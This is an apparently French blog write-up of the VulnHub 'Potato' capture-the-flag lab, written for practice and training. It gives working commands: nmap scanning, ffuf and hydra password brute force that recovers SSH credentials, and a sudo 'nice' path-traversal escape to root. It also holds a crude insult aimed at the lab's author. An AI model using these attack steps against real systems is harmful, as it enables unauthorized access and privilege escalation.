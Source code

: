 ```yaml
---
title: "Solution du CTF Potato de VulnHub"
tags: [CTF, VulnHub]
---
```


[Potato](https://vulnhub.com/entry/potato-1,529/) est un CTF proposé sur VulnHub. Il est nul. Fuyez pauvres fous !

```bash
$ sudo nmap -p- -T5 -sCV 192.168.56.63
[sudo] Mot de passe de root : 
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.63
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

Je m'empresse de télécharger de fichier `bak` que Nmap a détecté :

```php
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

Le fichier à la racine du site ne semble pas correspondre mais une petite énumération met en lumière la présence du dossier `/admin` dont l'index correspond au script.

Il y a aussi un dossier `/potato` mais ce dernier est vide.

Je suis tenté de prendre le backup au pied de la lettre mais les identifiants sur le formulaire de login sont rejetés.

Définir le cookie comme indiqué dans le code ne fonctionne pas non plus :

```bash
$ curl -D- -H "Cookie: pass=potato;" http://192.168.56.63/admin/dashboard.php -e "http://192.168.56.63/admin/index.php?login=1"
HTTP/1.1 302 Found
Date: Fri, 18 Nov 2022 16:03:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: index.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

On est redirigé vers la page d'accueil :(

Une énumération web avec les wordlists *raft* de *fuzzdb* ne retournent rien mis à part le dossier /admin/logs.

Ce dernier contient trois fichiers texte avec les contenus suivant :

```
Operation: password change
Date: January 03, 2020 / 11:25 a.m.
User: admin
Status: OK


Operation: reboot the server
Date: January 09, 2020 / 9:55 a.m.
User: admin
Status: OK 


Operation: password change
Date: August 2, 2020 / 9:25 p.m.
User: admin
Status: OK
```

Le dernier fichier est plus gros car il contient pas mal de writespaces inutiles en fin de lignes.

Comme le script PHP indique de changer le mot de passe régulièrement je tente de me mettre dans la tête d'un utilisateur lambda et teste des mots de passe tel que `potato1`, `summer2020`, etc, sans succès.

J'ai procédé à une attaque brute force à l'aide de ffuf :

```bash
$ ffuf -u "http://192.168.56.63/admin/index.php?login=1" -w wordlists/rockyou.txt -X POST -d "username=admin&password=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -fs 109
```

J'ai laissé tomber après une bonne demi heure de scan.

On est dans un cas typique où l'auteur du CTF a mis en place une solution qui lui semblait clair pour lui... mais pour lui seul.

Du coup après recherche sur le web il s'avère que non seulement le mot de passe attendu ne concerne pas le script web mais plutôt SSH, l'utilisateur n'est pas `admin` et le mot de passe n'est pas une variante de `potato` !

Du coup il fallait faire cela :

```bash
$ ./hydra -l webadmin -P rockyou.txt ssh://192.168.56.63
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.63:22/
[22][ssh] host: 192.168.56.63   login: webadmin   password: dragon
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Wow ! Les parents de l'auteur de ce CTF auraient du le noyer à sa naissance !

Une fois qu'on a obtenu notre shell on peut aller voir ce fameux script `dashboard.php` et il contient des vulnérabilités qu'il aurait pu être intéressant d'exploiter mais tout est bloqué par ces premières lignes :

```php
<?php

if($_COOKIE['pass']!=="serdesfsefhijosefjtfgyuhjiosefdfthgyjh"){
  header('Location: index.php');
  exit();
}
?>
```

Je pouvais faire tourner rockyou longtemps dessus ! A croire que l'auteur a volontairement saboté son travail.

La suite du CTF a sans doute plus de logique mais n'a absolutment rien d'intéressant :

```bash
webadmin@serv:/var/www/html/admin$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
webadmin@serv:/notes$ sudo /bin/nice /notes/../bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA==
# echo bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA== | base64 -d
licorne unijambiste qui fuit au bout d’un double arc-en-ciel.
```

Heureusement pour tous les fans de CTF l'auteur ne semble pas avoir réitéré depuis :D

*Publié le 18 novembre 2022*
